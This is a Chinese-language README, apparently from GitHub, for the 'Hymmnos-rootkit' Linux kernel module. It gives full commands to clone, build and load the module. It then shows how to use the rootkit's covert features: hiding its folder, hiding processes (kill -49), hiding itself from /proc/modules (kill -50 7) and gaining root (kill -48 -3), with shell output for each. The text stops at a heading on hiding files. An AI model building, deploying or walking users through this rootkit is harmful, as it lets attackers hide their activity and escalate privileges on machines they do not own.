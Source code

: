 ## 使用文档

### **构建**



1. 克隆源代码

   ```bash
   $ cd ~
   $ git clone https://github.com/flysoar/Hymmnos-rootkit.git
   ```



2. 从源码构建

   ```bash
   $ cd Hymmnos-rootkit
   $ make
   ```


3. 加载入内核

   ```bash
   $ sudo insmod hymmnos.ko
   ```



### **使用**

- 隐藏文件夹自身 —— 将源代码文件夹改名为 *hymmnos*。

  ```bash
  $ cd ..
  $ mv Hymmnos-rootkit/ hymmnos/
  ```

![hide_document_after](https://github.com/udidi/Hymmnos-rootkit/blob/master/screenshot/hide_document_after.png)

![hide_document_before](https://github.com/udidi/Hymmnos-rootkit/blob/master/screenshot/hide_document_before.png)



- 隐藏特定进程

  1. 未隐藏进程之前

     ```bash
     $ ps aux | grep hymmnos
     ```

     返回

     ```bash
     henry     3436  0.0  0.0  21536  1028 pts/0    S+   13:20   0:00 grep --color=auto hymmnos
     ```

  2. 隐藏进程（kill -49 命令）

     ```bash
     $ top
     $ ps aux | grep top
     henry     1593  0.0  1.4 813092 57416 tty2     Sl+  11:33   0:01 nautilus-desktop
     henry     3496  1.3  0.0  48940  3772 pts/0    S+   13:32   0:00 top
     henry     3518  0.0  0.0  21536  1136 pts/1    S+   13:33   0:00 grep --color=auto top
     $ kill -49 3496
     $ ps aux | grep top
     henry     1593  0.0  1.4 813092 57416 tty2     Sl+  11:33   0:01 nautilus-desktop
     henry     3520  0.0  0.0  21536  1064 pts/1    S+   13:33   0:00 grep --color=auto top
     ```

  3. 恢复进程（卸载模块）

     ``` bash
     $ sudo rmmod hymmnos
     $ ps aux | grep top
     henry     1593  0.0  1.4 813092 57416 tty2     Sl+  11:33   0:01 nautilus-desktop
     henry     3496  1.3  0.0  48940  3772 pts/0    S+   13:32   0:05 top
     henry     3581  0.0  0.0  21536  1008 pts/1    S+   13:39   0:00 grep --color=auto top
     ```

- 隐藏模块

- 1. 隐藏 *hymmnos* 模块（kill -50 7 命令）

     ```bash
     $ cat /proc/modules | grep hymmnos
     hymmnos 24576 0 - Live 0x0000000000000000 (OE)
     $ kill -50 7
     $ cat /proc/modules | grep hymmnos
     ```


  2. 恢复 *hymmnos* 模块（kill -50 7 命令）

     ```bash
     $ kill -50 7
     $ cat /proc/modules | grep hymmnos
     hymmnos 24576 0 - Live 0x0000000000000000 (OE)
     ```


- 获取 root 权限（kill -48

  ```bash
  $ kill -48 -3
  $ whoami
  root
  ```


- 隐藏特定文件
